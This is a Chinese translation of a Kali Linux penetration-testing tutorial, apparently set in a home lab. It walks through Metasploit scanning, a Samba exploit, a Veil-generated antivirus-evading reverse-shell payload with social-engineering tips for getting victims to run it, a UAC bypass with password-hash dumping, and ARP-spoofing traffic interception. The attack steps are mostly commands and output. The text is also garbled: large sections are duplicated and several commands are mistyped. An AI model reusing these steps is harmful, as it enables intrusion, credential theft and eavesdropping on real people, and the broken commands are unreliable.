要找到可用的扫描器，只需在 Kali 命令行提示符运行 `msfconsole`。在 Metasploit 启动后，在提示符处输入 `search scanner`：

```bash
msf > search scanner
Matching Modules
=================
| Name | Rank | Description |
| :--- | :--- | :--- |
| auxiliary/admin/smb_check_dir_file | normal | SMB 扫描器检查文件/目录工具 |
| auxiliary/bnat/nat_scan | normal | BNAT 扫描器 |
| auxiliary/gather/citrix_published_applications | normal | Citrix Metaframe ICA 已发布应用程序 |
| auxiliary/gather/enum_dns | normal | DNS 记录扫描器和枚举器 |
| auxiliary/gather/natmp_external_address | normal | NAT-PMP 地址扫描器 |
| auxiliary/pro/nexpose | normal | Nexpose 扫描器集成 |
| auxiliary/pro/webscan | normal | PRO: Nexpose 扫描器 |
```

向下阅读这个庞大的列表以查看可用内容。

在本教程中，我们将注意力缩小发现的常用端口上。作为复习，这里是上章执行的 `nmap` 扫描结果：



让我们关注端口 22，它是安全外壳 (ssh)。

请继续在 Metasploit 中搜索 ssh 扫描器：

```bash
msf > search scanner/ssh
Matching Modules

| Name | Disclosure Date Rank | Description |
| :--- | :--- | :--- | :--- |
| auxiliary/scanner/ssh/ssh_identify_pubkeys | normal | SSH 公钥识别扫描器 |
| auxiliary/scanner/ssh/ssh_login | normal | SSH 登录检查扫描器 |
| auxiliary/scanner/ssh/ssh_login_pubkeys | normal | SSH 公钥登录扫描器 |
| auxiliary/scanner/ssh/ssh_version | normal | SSH 版本扫描器 |
```

注意有几个可用的模块。我们现在只需要寻找版本信息，因此我们将使用 `auxiliary/scanner/ssh/ssh_version` 模块。

1. 输入 `use auxiliary/scanner/ssh/ssh_version`
2. 然后输入 `show options` 查看可以使用哪些选项。
3. 在这种情况下，我们需要做的只是 `set RHOSTS <IP>` 或远程主机，即我们的目标。
4. 然后只需输入 `exploit` 即可运行。

```bash
msf > auxiliary/scanner/ssh/ssh_version
auxiliary(ssh_version) > show options
Module options (auxiliary/scanner/ssh/ssh_version):
| Name | Current Setting | Required | Description |
| :--- | :--- | :--- | :--- |
| RHOSTS | | yes | 目标主机范围或 CIDR 标识 |
| PORT | 22 | yes | |
| THREADS | 1 | yes | 并发线程数 |
| TIMEOUT | 30 | yes | 探测超时 |
auxiliary(ssh_version) > set RHOSTS 192.168.198.145
auxiliary(ssh_version) > exploit
[*] 192.168.198.145:22, ssh server: SSH-2.0-OpenSSH-4.7p1 Debian-8
[+] Scanned 1 of hosts (100% complete)
[+] Auxiliary module completed.
auxiliary(ssh_version) >
```

我们看到目标确实运行着 SSH 服务器并看到了版本：

`SSH-2.0-OpenSSH-4.7p1 Debian-8`


我们现在可以使用此信息寻找利用程序。注意远程主机的命令是复数的`RHOSTS`，我们可以输入整个系统范围，从而快速地扫描整个网络以发现 ssh 服务器。现在有了 SSH 版本号，我们可以尝试寻找它的利用程序，或者使用另一个辅助模块`auxiliary/scanner/ssh_login`来尝试破解密码。我们将此留到后面再讨论。

## 使用其他扫描器

某些扫描器返回的信息与其他不同。

### MySQL

例如，如果我们使用 MySQL 扫描，会得到这些：

```bash
msf> use auxiliary/scanner/mysql/mysql_version
msf(mysql_version) > show options

Module options (auxiliary/scanner/mysql/mysql_version):
| Name | Current Setting | Required | Description |
| :--- | :--- | :--- | :--- |
| RHOSTS | | yes | 目标地址范围或 CIDR 标识 |
| PORT | 3306 | | 目标端口 |
| THREADS | 1 | yes | 并发线程数 |
msf(mysql_version) > set RHOSTS 192.168.198.145
RHOSTS => 192.168.198.145
msf(mysql_version) > exploit
[*] 192.168.198.145:3306 is running MySQL 5.0.51-ubuntu
[+] Scanned 1 of hosts (100% complete)
[+] Auxiliary module completed.
msf(mysql_version) >
```

扫描显示正在运行 MySQL 5.0.51。

但其他的扫描器可以揭示一些有趣的信息。例如，让我们看看 Telnet。

### TELNET

Telnet 扫描器可以用两种不同的方式工作。如果我们使用用户名和密码，它将尝试登录。如果没有，它将仅获取 banner（标志信息）。注意这与我们目前涵盖的其他扫描器不同。

```bash
msf > auxiliary/scanner/telnet/telnet_version
auxiliary(telnet_version) > show options
Module options (auxiliary/scanner/telnet/telnet_version):
| Name | Current | Required | Description |
| :--- | :--- | :--- | :--- |
| PASSWORD | | no | 指定用户名的密码 |
| RHOSTS | | yes | 目标地址范围或 CIDR 标识 |
| THREADS | 23 | yes | 并发线程数 |
| TIMEOUT | 30 | yes | 探测超时 |
| USERNAME | | yes | 用于身份验证的用户 |
auxiliary(telnet_version) > set RHOSTS 192.168.198.145
auxiliary(telnet_version) > exploit
[*] 192.168.198.145:148:23 TELNET
Connected to 192.168.198.145.
Escape character is '}'.
Password:
```

现在，当我们输入`exploit`时，我们看到了这些：

```bash
auxiliary(telnet_version) > exploit
[*] 192.168.198.145:148:23 TELNET
//
|
|||____|
@Warning: 不要将此虚拟机暴露到不可信的网络
@Contact: msfadmin@metasploitable/msfadmin to get started
@
[+] Vulnerability found: Exploitable!
[*] Scanned 1 of hosts (100% complete)
[*] Auxiliary module completed.
```

就像一堆文字，没有任何提示运行的是什么层次的软件。但如果我们观察得仔细，我们可以看到其他的：

`Login with msfadmin/msfadmin to get started`

“Login with msfadmin/msfadmin to get started”，看起来他们在 Telnet 页面上提供了登录凭据：

你在开玩笑吗？

让我们试试看是否有效：

```bash
root@metasploitable:~$ telnet msfadmin 192.168.198.145
Connected to 192.168.198.145.
Escape character is '}'.
Password: msfadmin
Last login: Wed Oct 23 24:48:53 EDT 2013 server66 on tty1
Linux metasploitable 2.6.0-26-kernel#1 SMP Apr 10 13:58:00 UTC 2006 i686
Ubuntu 包含的程序是自由软件；每个程序的明确分发条款均在 /usr/share/doc/*~/copyright 文件中描述

Ubuntu 绝对不提供任何保证（在适用法律允许范围内）
要访问 Ubuntu 官方文档，请访问：
http://help.ubuntu.com/
No mail.
msfadmin@metasploitable:~$
```

我们进来了！

如果我们运行`id`命令，我们可以看到该用户（主用户）属于多个组：

```
$ msfadin@metasploitable: $ id
uid=1000(msfadin) gid=1000(msfadin) groups=4(adm),28(dialout),24(cdrom),25(flamingo),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(ladman),112(admin),199(bashhare),1000(msfadin) $
msfadin@metasploitable: $
```

我们可能利用这些信息来进一步利用其他服务。

公司在服务登录页面上包含登录凭据听起来有些不可置信，但无论你信不信，这在现实生活中发生的次数比你想象的要多。

## 扫描地址范围

同样有趣的是通过这些扫描程序，我们有不同的选项可以设置。例如，让我们运行 SMB 扫描器：



好的，我们将`RHOSTS`设置为`192.168.198.145`，它扫描了该地址并返回了运行上面的 Samba 版本。

但如果我们想扫描整个网络以寻找运行 Samba 的系统呢？

这就是`RHOSTS`命令的妙之处。你不需要只扫描单个主机，而是可以扫描`192.168.198.0`网络上的所有 256 个客户端。

我们使用完全相同的命令，但如下所示修改`RHOSTS`命令：

```
msf use auxiliary/scanner/smb/smb_version
set HOSTS 192.168.198.0/24
HOSTS => 192.168.198.0
set THREADS 255
msf auxiliary(smb_version) > 
[*] 192.168.198.145 is running Windows 7 7601 Service Pack (Build 1) (name:GAME PC) (domain:WORKGROUP)
[*] 192.168.198.145-45 is running Unix Samba 3.0.20-Debian (language: Unknown) GROUP
[*] Scanned 165 of 256 hosts (64% complete)
[*] Scanned 170 of 256 hosts (66% complete)
[*] Scanned 169 of 256 hosts (66% complete)
[*] Scanned 219 of 256 hosts (85% complete)
[*] Scanned 240 of 256 hosts (93% complete)
[*] Scanned 242 of 256 hosts (94% complete)
[*] Scanned 252 of 256 hosts (98% complete)
[*] Scanned 252 of 256 hosts (98% complete)
[*] Scanned 254 of 256 hosts (99% complete)
[*] Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(smb_version) >
```

现在它注意到扫描了网络上的所有 256 个主机，并发现位于`192.168.198.145`的 Metasploitable 2 机器运行着 Samba。

如果你只是扫描网络上运行的某些服务，这会让事情变得简单得多。`threads`命令默认设置为“1”。如果你扫描本地局域网（LAN），可以将其增加到 50 以提高速度，或者在测试远程网络时进行相应调整。

## 利用 Samba 服务

既然已经到了，让我们来看看如何利用 Samba (SMB) 服务。这将让我们有更多运行漏洞利用（exploits）的练习，并帮助我们发现和利用漏洞服务。

我们从刚才运行的扫描器中知道 SMB 服务版本是 Unix Samba 3.0.20。让我们快速在 Google 上搜索一下看看能找到什么：



第一个返回结果是一个“用户名映射脚本（username map script）”问题。

让我们尝试一下看看结果如何。

继续搜索`samba/usermap`：

```
msf> search sambamap/
Matching Modules
=================
Name                             Disclosure Date      Rank
----                             --------------- -----
exploit/multi/samba/usermap_script 2007-05-14 00:00:00 UTC excellent
script" Command Execution"
```

从上面的图片可以看到，其等级是“excellent（优秀）”。

让我们对它使用`info`命令看看它怎么说：

```
msf> info exploit/multi/samba/usermap_script
```

```
Basic options:
Name             Current Setting  Required  Description
----             ---------------  --------  -----------
RHOST             ---              yes       The target address
RPORT             139              yes       The target port

Payload information:
Space: 102

Description:
This module exploits a username map script vulnerability in Samba versions 3.0.20.
```

从上面的图片可以看到等级是“excellent”。

如果我们运行`id`命令，我们可以看到该用户（主用户）属于多个组：

```
$ msfadin@metasploitable: $ id
uid=1000(msfadin) gid=1000(msfadin) groups=4(adm),28(dialout),24(cdrom),25(flamingo),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(ladman),112(admin),199(bashhare),1000(msfadin) $
msfadin@metasploitable: $
```

我们可能利用这些信息来进一步利用其他服务。

公司在服务登录页面上包含登录凭据听起来有些不可置信，但无论你信不信，这在现实生活中发生的次数比你想象的要多。

## 扫描地址范围

同样有趣的是通过这些扫描程序，我们有不同的选项可以设置。例如，让我们运行 SMB 扫描器：


好的，我们将`RHOSTS`设置为`192.168.198.145`，它扫描了该地址并返回了运行上面的 Samba 版本。

但如果我们想扫描整个网络以寻找运行 Samba 的系统呢？

这就是`RHOSTS`命令的妙之处。你不需要只扫描单个主机，而是可以扫描`192.168.198.0`网络上的所有 256 个客户端。

我们使用完全相同的命令，但如下所示修改`RHOSTS`命令：

```
msf use auxiliary/scanner/smb/smb_version
set HOSTS 192.168.198.0/24
HOSTS => 192.168.198.0
set THREADS 255
msf auxiliary(smb_version) > 
[*] 192.168.198.145 is running Windows 7 7601 Service Pack (Build 1) (name:GAME PC) (domain:WORKGROUP)
[*] 192.168.198.145-45 is running Unix Samba 3.0.20-Debian (language: Unknown) GROUP
[*] Scanned 165 of 256 hosts (64% complete)
[*] Scanned 170 of 256 hosts (66% complete)
[*] Scanned 169 of 256 hosts (66% complete)
[*] Scanned 219 of 256 hosts (85% complete)
[*] Scanned 240 of 256 hosts (93% complete)
[*] Scanned 242 of 256 hosts (94% complete)
[*] Scanned 252 of 256 hosts (98% complete)
[*] Scanned 252 of 256 hosts (98% complete)
[*] Scanned 254 of 256 hosts (99% complete)
[*] Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(smb_version) >
```

现在它注意到扫描了网络上的所有 256 个主机，并发现位于`192.168.198.145`的 Metasploitable 2 机器运行着 Samba。

如果你只是扫描网络上运行的某些服务，这会让事情变得简单得多。`threads`命令默认设置为“1”。如果你扫描本地局域网（LAN），可以将其增加到 50 以提高速度，或者在测试远程网络时进行相应调整。

## 利用 Samba 服务

既然已经到了，让我们来看看如何利用 Samba (SMB) 服务。这将让我们有更多运行漏洞利用（exploits）的练习，并帮助我们发现和利用漏洞服务。

我们从刚才运行的扫描器中知道 SMB 服务版本是 Unix Samba 3.0.20。让我们快速在 Google 上搜索一下看看能找到什么：


第一个返回结果是一个“用户名映射脚本（username map script）”问题。

让我们尝试一下看看结果如何。

继续搜索`samba/usermap`：

```
msf> search sambamap/
Matching Modules
=================
Name                             Disclosure Date      Rank
----                             --------------- -----
exploit/multi/samba/usermap_script 2007-05-14 00:00:00 UTC excellent
script" Command Execution"
```

从上面的图片可以看到，其等级是“excellent”。

让我们对它使用`info`命令看看它怎么说：

```
msf> info exploit/multi/samba/usermap_script
```


```text
Basic options:
Name             Current Setting  Description
----             ---------------  -----------
RHOST             ---               The target address
RPORT             139               yes             The target port

Payload information:
Space: 102

Description:
This module exploits a username map script vulnerability in Samba versions 3.0.20.
```

从上面的图片可以看到等级是“excellent”。

（注：由于原文后部分存在大量重复块，此处已根据唯一内容进行逻辑流翻译。）

# 第 9 章：使用 Veil 绕过杀毒

## 资源

- https://www.veil-evasion.com/powershell-payloads/

## 简介

我们已经快速查看了攻击 Linux；现在让我们来看看攻击 Windows 主机。

## 安装 Veil

Veil 最近被添加到 Kali 中，如果在终端提示符处输入`veil`没有启动，说明它可能还没有安装。

```bash
root@kali:/usr/share# apt-get update apt-get install veil
```

2. 然后输入`veil`运行程序：

```bash
root@kali:/usr/share# veil
```

## 使用 Veil

第一步是使用`list`命令列出可用的负载。

负载是有评级的，由于我们将稍后讨论一些 PowerShell 攻击（在*社会工程*章节中），让我们使用 PowerShell 负载。

只需使用`use`命令和负载的编号。在本教程中我们将使用`powershell/VirtualAlloc`负载：

1. 输入`use 9`。

# Veil

**版本：** `2.8.5`

**Web：** https://www.veil-evasion.com/  
**Twitter：** @veilevasion

```text
Payload: powershell/VirtualAlloc loaded
Available commands:

set             设置特定的选项值
info            显示关于 payload 的相关信息
help [crypters] 显示 payload 或 crypters 的菜单
generate        生成 payload
exit            退出 Veil
back            返回主菜单

[>] 请输入命令: _
```

2. 我们将直接使用默认值，所以只需输入`generate`即可。

然后你可以选择使用 Metasploit 标准的 `msvenom` shellcode，或者选择你自己的。我们将选择默认的 `msfvenom`。

3. 输入`1`并按回车：

```text
[?] 使用 msfvenom 还是提供自定义 shellcode?
1 - msfvenom (默认)
2 - 自定义
[>] 请输入你的选择数字: 1
```

接下来选择 shell 的类型；我们将使用默认的 `reverse_TCP`。这意味着他们的计算机将连接到我们这里。

4. 只需按“回车”接受默认的 shell payload：

```text
[*] 按 [enter] 执行 windows/meterpreter/reverse_tcp
[*] 按 [tab] 列出可用的 payloads
[>] 请输入 metasploit payload: _
```

5. 接下来 Veil 会要求输入你正在使用的主机的 IP 地址。输入你 Kali 机器的 IP 地址并按回车。

```text
[>] 输入 'LHOST' 的值, [tab] 获取本地 IP: 192.168.198.137 _
```

6. 然后输入你将要使用的本地端口。我选择使用端口 4000：

```text
[>] 输入 'LPORT' 的值: 4000 _
```

7. 然后你会被要求输入任何你想使用的 MSVenom 选项，我们不会使用任何选项，只需按“回车”跳过它们。

就是这样！Veil 将根据我们选择的选项生成 shellcode。

8. 现在我们需要为创建的文件命名。我选择了“CutePuppy”。

请输入输出文件的基础名称: CutePuppy

好的，“CutePuppy”听起来有点奇怪，记住，你希望目标打开你发送的文件，因此需要一点社会工程学的文件命名。

如果你喜欢可爱的小狗，那么我们选择的文件名就是完美的。但你也可以将其命名为“2013 业务报告”或“新职位要求”。任何你认为最好的都可以。

Veil 现在拥有了它所需的内容并创建了我们的陷阱文件。



```text
Language: powershell
Payload: VirtualAlloc
Shellcode: windows/meterpreter/reverse_tcp
Options: HOST=192.160.198.137 LPORT=4000
Source File: /usr/share/veil/output/source/CutePuppy.bat
```

```text
[*]  payload 已经生成，不要被抓到！
[!] 不要向任何在线扫描器提交样本；
[>] 按任意键返回主菜单:
```

我们的文件将存储在`/usr/share/veil/output/source/`目录下。

只需获取创建的`.bat`文件并发送给你的目标。当它运行时，它将尝试连接到我们的机器。

我们现在需要启动一个监听器（handler）来接受连接。

# 获取远程 Shell

要创建远程监听器，我们将使用 Metasploit。

1. 从菜单或终端（`msfconsole`）启动 Metasploit Framework。

2. 现在使用以下界面设置 `multi/handler`：

```text
msf > use multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set host 192.168.198.137
msf host => 192.168.198.137
msf exploit(handler) > set lport 4000
lport => 4000
msf exploit(handler) > exploit
```

务必输入你机器的 IP 地址以及你在 Veil 中输入的端口。它们必须完全一致。

Metasploit 随后将启动监听器并等待连接：

```text
[*] 在 192.168.198.137:4000 上启动反向监听器
[*] 正在启动 payload 处理器...
```

现在我们只需要受害者运行发送给他们的文件。


在 Windows 7 机器上，如果执行了文件，我们将在 Kali 系统上看到这些：

```text
[*] 在 192.168.198.137:4000 上启动反向监听器
[*] 正在启动 payload 处理器...
[*] 正在向 192.168.198.132 发送阶段 (22128 bytes)
[*] Meterpreter 会话已打开 (192.168.198.137:4000)
meterpreter >
```

反向 shell 会话！如果我们输入`shell`，就能看到我们拥有了一个完整的 shell：

```text
meterpreter > shell
Process created.
Microsoft [Version 6.1.7601]
Copyright (c) Microsoft Corporation. All rights reserved.
C:\Users\Fred\Desktop>
```

这应该证明你不能仅仅依靠防火墙和反病毒软件来免受在线威胁。不幸的是，很多网络安全取决于用户以及他们允许运行的内容。指示用户永远不要运行垃圾邮件中的任何程序或打开文件。阻止特定类型的文件进入或离开网络也是一个好主意。最后，使用网络安全监控有助于追踪发生了什么。

# 第 10 章：绕过 UAC 进行 Windows 权限提升

## 简介

Windows 用户拥有许多权限，但某些操作只有管理员才能执行。Linux 用户有超级用户，而 Windows 有 System 用户。用户账户控制（UAC）在之前的版本中是个麻烦，许多公司关闭了它。UAC 在 Windows 7 中效果良好。在本节中，我们将学习如何绕过 UAC 将权限从管理员提升到系统。

## UAC 绕过

在本教程中，我们将从具有管理员权限的 Windows 7 Meterpreter 会话开始：

1. 首先等待会话。运行`sessions`命令看到唯一的活动会话是 1：


2. 现在需要使用 `bypassuac` exploit：

`msf exploit(handler) > exploit/windows/local/bypassuac`

3. 输入`show options`查看我们需要提供的选项：


4. 唯一的选项是`set session`。在此情况下设置为我们的活动会话 1：

`msf exploit(handler) > set session 1`

5. 最后输入`exploit`运行 `bypassuac` 模块：


太棒了，你可以看到该用户是管理员组的成员，UAC 绕过成功了，并创建了一个新会话。现在如果我们再次尝试`getuid`，它仍然显示是 Fred。但如果我们运行`getsystem`就成功了！

```text
meterpreter > getuid
Server username: WIN-COMPUTER\Fred
meterpreter > getsystem
got system (via technique 1).
meterpreter >
```

现在如果我们输入`getuid`，将证明我们确实拥有 System 权限，或者从 Windows 的角度来看是“god 权限”。

```text
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

现在，如果我们用`run post/windows/gather/hashdump`命令转储密码哈希值：

```text
meterpreter > run post/windows/gather/hashdump
[*] 正在获取 boot key...
[*] 正在通过 SYKEY ba8bf7a3b510157f211cb63b71dbaa 计算 hboot key...
[*] 正在获取用户列表和密钥...
[*] 正在解密密钥...
[*] 密码提示...

Alice:"password"
Bob:"my name"
George:"secured"
```

上面的 `hashdump` 显示的第一部分 Alice、Bob 和 George 显示了他们在创建密码时设置的登录密码提示。

最后部分显示系统的实际哈希值：

```text
[*] 正在转储密码哈希...

Administrator:500:aad3b435b51044ead3b435b51044ae:31d6fe0d16ae9931b73c59d7e0c08c0
Guest:500:aad3b435b51044ead3b435b51044ae:31d6fe0d16ae9931b73c59d7e0c08c0
Guest:500:aad3b435b51044ead3b435b51044ae:31d6fe0d16ae9931b73c59d7e0c08c0
Alice:101:aad3b435b51044ead3b435b51044ae:2e4fd8ba3a6502689935eae32897b270
Bob:102:aad3b435b51044ead3b435b51044ae:9de6a7e9a98da72150d15263f56febd6
George:103:aad3b435b51044ead3b435b51044ae:317a9aa1b1069208b4ccb69718adf6f7
```

# 第 11 章：数据包捕获与中间人攻击

## 引言

另一种可能对我们有利的技术是在远程机器上监控或捕获网络流量。

你可以把它想象成一个窃听器。就像窃听器记录某人在电话上说的所有话一样，数据包捕获会记录你的计算机在网络线上传输的所有内容。这可能包括账户名、密码等。

在本节中，我们将通过两个截然不同的过程来查看网络数据包。

对于第一个过程，我们将对局域网上的一个系统使用中间人攻击，涉及`arpspoof`、`urlsnarf`和`Driftnet`命令。通过使用这些命令，我们可以查看目标正在哪个网站，并显示目标正在查看的每一幅图像。

其次，我们将介绍如何通过 Metasploit 会话（session）在远程机器上运行数据包捕获。然后，我们将在 Wireshark 和 Xplico 中查看捕获的信息以寻找人工痕迹。

在这两种情况下，我们都使用一台 Windows 7 计算机作为目标系统。

## 使用 Arpspoof 创建中间人攻击

现在我们将学习如何使用中间人攻击（MitM）来捕获和监控网络流量。

中间人攻击本质上是将我们的 Kali 系统置于目标和路由器之间。这样一来，我们就能看到所有来自目标和发往目标系统的流量。

从目标系统发往互联网的所有流量都会先重定向到我们的机器，然后由我们的机器捕获并转发到网络。从互联网发往目标机器的所有信息都会首先通过我们的系统，再次以便我们可以进行审查，然后转发到目标系统。

我们通过修改路由器和目标系统上的 ARP（地址解析协议）表来实现这一点。ARP 表告诉系统 IP 地址实际上位于哪个物理 MAC 地址。因此，我们告诉目标机器我们是互联网路由器，并告诉路由器我们是目标机器。

1. 我们可以使用`arpspoof`程序轻松修改 ARP 表。但首先，我们需要通过运行以下命令来开启 IP 转发（IP forwarding）。

2. 现在我们需要运行`arpof`命令。为了这样做，我们需要像下面提供网络接口（`-i`）、目标系统（`-t`）和路由器地址：

```bash
root@Kali:~# arpof -i eth0 -t 192.168.198.132 192.168.198.2
```

（你可能需要运行反转 IP 地址的反向命令来设置反向连接。在 VMWare 主机上反转似乎不起作用，但我只需使用上面的单向命令就捕获了所有流量。）

`Arpspoof`然后应该开始发送修改后的 MAC 地址。

现在让我们看看能从目标系统捕获到什么。

## 使用 Urlsnarf 查看 URL 信息

让我们先查找目标正在浏览的 URL 地址。

3. 简单地输入`urlsnarf -i eth0`：

```text
root@kali:-# urlsnarf -i eth0
urlsnarf: listening on eth0 [tcp port 80 or port 8080 or port 3128]
```

当用户浏览网页时，我们将看到所有的 URL 流量：

```text
urlsnarf: listening on eth0 [tcp port 80
192.168.198.132 - [08/Nov/2013:21:49:06 -0500]
a.net/pub/mozilla.org/firefox/releases/25/update/
partial.mar HTTP/1.1 " - " - "Mozilla/5.0 (Wind
0101 Firefox/24.0"
192.168.198.132 - [08/Nov/2013:21:49:43 -0500]
" - - "Mozilla/5.0 (Windows NT 6.1; rv:24.0) Go
192.168.198.132 - [08/Nov/2013:21:49:44 -0500]
" - - "Mozilla/5.0 (Windows NT 6.1; rv:24.
192.168.198.132 - [08/Nov/2013:21:49:44 -0500]
e63.ico HTTP/1.1 " - - "Mozilla/5.0 (Windows
Firefox/24.0"
```

这允许我们在 Kali 系统上看到用户访问的所有网站地址！

## 使用 Driftnet 查看捕获的图像

文本很有趣，但你也可以看到来自访问的 URL 的图像。要这样做，只需使用`Driftnet`。

4. 简单地配合你想要的接口（`-i`）输入命令`driftnet`，如下所示：

```bash
root@kali:-# driftnet -i eth0
```

Driftnet 窗口会在你的 Kali 界面上打开。将其最大化以便更容易查看。

5. 现在回到目标计算机并开始浏览网页。

你应该开始看到图像出现在你的 Kali 系统上。例如，如果目标用户访问了 Kali Linux 博客页面，网站上的图像应该开始显示。

因此，在目标系统上他们将看到这些图像：

(img/ffcd19afe449ae54278ee268)

如果用户连接到任何未加密的 FTP 会话（如所示），你将可以看到整个会话。


要以明文形式查看整个会话，请右键点击源 IP 并点击“Follow TCP Stream”（跟踪 TCP 流）。你将看到如下所示的流内容：



我们可以看到，我们有一个完整的 FTP 登录和文件下载捕获。

Wireshark 是分析网络通信的优秀工具，你可以用它做很多事情，但对于新用户来说它有点高级，在你熟悉它之前可能很难使用。

所以，让我们看看上一个程序中的数据包捕获。该程序 Xplico 以易于阅读的菜单列出了数据包捕获中的所有信息。它还允许你查看任何图像或文档。

# Xplico

Xplico 已经添加到 Kali 存储库中，但你的系统中可能尚未安装。它是一个基于 Web 的界面，因此为了启动它，你需要同时启动 Apache Web 服务器和 Xplico 服务器。

在 Kali 菜单的“System Services”（系统服务）下，你应该能看到 HTTP（Apache）和 Xplico。

如果列表中没有 Xplico，你需要安装它。要进行安装，请运行以下命令：

```bash
root@kali:~# apt-get install xplico
```

完成后，我们只需要启动服务即可。

1. 如果 Apache Web 服务器尚未运行，请启动它。

   `Kali>System Services>HTTP>Apache 2 Start`

2. 在“System Services”菜单下启动 Xplico 服务：

   

一旦 Xplico 启动，你就可以通过 Web 界面访问它。

3. 打开浏览器并访问`localhost:9876`。

   

4. 使用用户名和密码“xplico”登录。

   

5. 点击“New Case”（新建案例）。

   

6. 现在点击“Uploading PCAP capture file/s”（上传 PCAP 捕获文件）。

7. 给它命名名称并点击“Create”（创建）。

# 数据采集 PCAP 捕获文件/s 实时采集

| 案例名称 | 测试 |
| --- | --- |
| 外部引用 | |
| 创建 | |

8. 在 Case 下，点击“New Session”（新建会话）：

   

9. 给会话命名，然后点击“Create”（创建）：

   

10. 现在点击会话名称。

11. 主会话桌面出现。

12. 在“Pcap set”菜单部分下，浏览并上传你的 pcap 文件：

